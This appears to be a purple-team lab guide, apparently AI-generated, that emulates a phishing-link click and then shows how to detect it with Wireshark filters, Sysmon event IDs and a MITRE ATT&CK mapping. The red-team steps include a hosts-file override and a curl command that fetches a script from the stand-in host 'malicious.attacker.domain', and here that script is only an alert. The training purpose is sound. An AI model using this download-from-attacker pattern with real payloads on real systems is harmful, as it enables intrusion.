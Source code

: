 # 🕵️ Scenario 9 — Phishing Link Resolution and Callback

## 🔴 Red Team Action
**Objective:** Simulate a phishing email link click that triggers DNS resolution and payload callback.

### ⚖️ Steps:
1. **Create a fake domain entry on the victim machine**:
   ```txt
   192.168.2.131 malicious.attacker.domain
   ```
   Edit the file `C:\Windows\System32\drivers\etc\hosts` as Administrator and append the above line. Confirm with:
   ```powershell
   ipconfig /flushdns
   ping malicious.attacker.domain
   ```

2. **Host a payload on the attacker (Kali) machine**:
   ```bash
   echo 'alert("Payload loaded!");' > payload.js
   sudo python3 -m http.server 80
   ```

3. **Simulate the phishing link click from the victim**:
   ```powershell
   curl http://malicious.attacker.domain/payload.js
   ```

4. **Packet captured (via Wireshark)**:
   - Shows HTTP request to `malicious.attacker.domain`
   - Confirms payload delivered over port 80

---

## 🔵 Blue Team Detection

### 🔍 Wireshark Filter:
```wireshark
(http.request or tls.handshake.type==1) and !(ssdp)
```

### 📉 Sample Capture Output:
- Victim IP: `192.168.2.129`
- Attacker IP: `192.168.2.131`
- Highlighted line shows:
  ```
GET /payload.js HTTP/1.1
Host: malicious.attacker.domain
  ```
- Status: `HTTP/1.0 200 OK`

Captured visual:
![Wireshark Capture](../images/wireshark_scenario9.png)

---

## 🔢 Sysmon Logs

If Sysmon is configured with DNS query monitoring:
- **Event ID 22**: DNS query for `malicious.attacker.domain`
- **Event ID 1**: `curl.exe` execution

---

## 🔮 MITRE ATT&CK Mapping

| Tactic         | Technique                    | Description                        |
|----------------|-------------------------------|------------------------------------|
| Initial Access | T1566 - Phishing              | Victim clicks link from phishing  |
| Recon/Callback | T1598 - Phishing for Information | DNS resolution + payload request |

---

## 📄 Screenshots

### ✅ Successful Payload Fetch:
![curl success](../images/curl_payload_success.png)

### 👁‍🗨️ HTTP Headers in Wireshark:
![http headers](../images/http_payload_headers.png)

### 🌐 Host Entry on Victim:
![hosts file](../images/hosts_file_entry.png)

---

## 🌎 Threat Emulation Summary
| Step                         | Status |
|------------------------------|--------|
| Hosts file DNS override      | ✅     |
| HTTP server active on Kali   | ✅     |
| Victim curl request succeeds | ✅     |
| Wireshark captures traffic   | ✅     |
| MITRE ATT&CK mapped          | ✅     |

---

## 🔨 Optional Enhancements
- Add a fake phishing email `.eml` file with a link to `http://malicious.attacker.domain/payload.js`
- Capture and label `.pcap` for Blue Team training
- Use `dnsmasq` for DNS-based resolution instead of `hosts` file for added realism

---

Let me know if you'd like:
- Markdown export with local image references
- PDF version with embedded screenshots
- GitHub folder structure with payloads, captures, and README

